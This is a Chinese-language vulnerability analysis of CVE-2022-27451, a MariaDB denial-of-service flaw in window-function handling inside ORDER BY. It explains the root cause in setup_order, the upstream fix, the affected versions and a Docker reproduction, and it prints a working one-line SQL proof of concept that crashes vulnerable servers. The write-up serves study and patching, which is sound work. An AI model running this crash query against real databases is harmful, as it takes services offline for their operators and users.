



# CVE-2022-27451 CWE-None MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

- **窗口规范上下文：**数据库在解析和处理一个表达式（Item对象）时，是否处于窗口函数的处理阶段，或者说这个表达式是否隶属于某个窗口规范（OVER (...)) 内部。当处理 `SUM(a) OVER (...)`，`SUM(a)` 及其表达式会被标记为“来自窗口规范上下文”。但如果只是普通的 `SUM(a)` 或 `1+SUM(a)` 没有 OVER，就不会被标记为窗口规范上下文。

- 在 SQL 查询中，`ORDER BY` 子句可以用于对查询结果进行排序，既可以是普通的排序，也可以是窗口函数中的排序规范。当涉及到聚合函数（如 `SUM`、`AVG` 等）时，需要对这些函数进行特殊处理，以确保它们的使用方式符合数据库规则和查询语义。

  

## 漏洞原理

当 **窗口函数**（window function）出现在 `ORDER BY` 子句的表达式中时，MariaDB 没有正确标记复杂窗口函数表达式的窗口上下文，导致原有判断条件跳过表达式的拆分和初始化。某些窗口函数因此在 `ORDER BY` 中处于未正确初始化的状态，后续可能发生非法内存访问，并在 `sql/field_conv.cc` 中触发 **segmentation fault**（段错误），造成数据库进程崩溃。

## 漏洞定位

在 sql\sql_select.cc 文件，第 24934 行，`setup_order`函数用于在 MySQL 数据库的 SQL 查询处理过程中，对`ORDER BY`子句进行一系列的检查、解析和设置操作，以确保查询的合法性并正确处理相关的排序项等内容。

其中第 **24970** 行的判断条件用于对排序项的聚合函数进行拆分处理，如果一个表达式当前处于窗口规范上下文（`from_window_spec` 为`true`），且它内部包含聚合/窗口函数（`with_sum_func`）但不是一个纯聚合函数节点（`type != SUM_FUNC_ITEM`，如不是`SUM(a) `而是`1+SUM(a)`），那么对该聚合函数表达式进行`split_sum_func`拆分处理，以适应窗口规范中的排序需求。

由于 MariaDB 的 `from_window_spec` 只在部分场景（比如 SELECT 列表中出现窗口函数时）才为 true，像这种放在 ORDER BY 并且嵌套在表达式里的场景，from_window_spec 并不会被设置为 true。

这个判断条件只有在排序字段来源于窗口规范，并且不是纯聚合节点，才会进行特殊处理。**限定条件太严格**，导致有些场景不会进入特殊处理分支。

```cpp
//  sql\sql_select.cc 文件，第 24934 行
int setup_order(THD *thd, Ref_ptr_array ref_pointer_array, TABLE_LIST *tables, List<Item> &fields, List<Item> &all_fields, ORDER *order, bool from_window_spec)
{ 
	// ... ...
    
// ***** 24970 行 ********** 对排序项的聚合函数进行拆分处理 ********** 漏洞点 *************************************
    if (from_window_spec && (*order->item)->type() != Item::SUM_FUNC_ITEM)
      (*order->item)->split_sum_func(thd, ref_pointer_array,
                                     all_fields, SPLIT_SUM_SELECT);
  }
```

## 漏洞修复


新增了对 `item->with_window_func` 的检查。这意味着只要当前表达式包含窗口函数，无论其是否来自窗口规范上下文，都会进入相应的拆分处理。

```cpp
if ((from_window_spec && item->with_sum_func() &&
      item->type() != Item::SUM_FUNC_ITEM)
    || item->with_window_func)
{
    item->split_sum_func(thd, ref_pointer_array,
                         all_fields, SPLIT_SUM_SELECT);
}
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中存在 PoC 文件 CVE-2022-27451-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27451-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27451-PoC.sql
```



4、查看容器 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`表明发生了 Segmentation Fault（段错误）。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 存在性查询，判断子查询是否返回至少一行数据
SELECT EXISTS (
    -- 选择了一个常量值 1，表示子查询并不关心具体的表数据，只是用于验证是否存在某种情况
    SELECT 1 
    	ORDER BY 
    		-- 将常量 1 和窗口函数的求和结果相加，作为排序的依据
    		1 + sum(2) OVER ()
);
```

PoC 代码是一个嵌套查询，外层用 `EXISTS`，内层是 `SELECT 1`，但内层带了 `ORDER BY 1+sum(2) OVER ()`。这里的 `sum(2) OVER ()` 是一个窗口函数，和 `1` 做加法，结果作为 `ORDER BY` 排序键。

在内层子查询的 `ORDER BY` 中，把窗口函数包裹进了一个普通加法表达式里：`1+sum(2) OVER ()`。漏洞代码只处理了 SELECT 字段、简单窗口表达式，遗漏了这种“ORDER BY 里嵌套窗口表达式”的场景。这就导致 MariaDB 解析时**没有正确注册/初始化窗口函数的内部结构**，但后续执行计划依然试图去计算该排序表达式。在内存访问过程中，指针未初始化或已被错误释放，导致出现**segmentation fault**（段错误），数据库进程崩溃。

## 参考链接


[NVD - CVE-2022-27451](https://nvd.nist.gov/vuln/detail/CVE-2022-27451)

[[MDEV-28094\] Window function in expression in ORDER BY - Jira](https://jira.mariadb.org/browse/MDEV-28094)

[MDEV-28094 Window function in expression in ORDER BY · MariaDB/server@8c34eab](https://github.com/MariaDB/server/commit/8c34eab9688b4face54f15f89f5d62bdfd93b8a7)
